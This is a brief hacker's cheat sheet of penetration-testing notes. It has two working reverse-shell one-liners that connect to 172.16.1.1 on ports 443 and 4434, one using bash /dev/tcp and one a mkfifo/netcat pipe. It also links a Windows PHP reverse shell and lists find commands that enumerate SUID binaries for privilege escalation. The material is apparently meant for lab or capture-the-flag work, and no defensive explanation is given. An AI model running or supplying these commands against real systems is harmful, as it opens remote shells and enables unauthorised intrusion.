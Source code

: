 # Hacker-Notes

PimpMyKali - https://github.com/Dewalt-arch/pimpmykali

Payloads - 

#!/bin/bash
bash -i >& /dev/tcp/172.16.1.1/443 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.1.1 4434 >/tmp/f

Windows reverse shell .php - https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

SUIDS etc
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
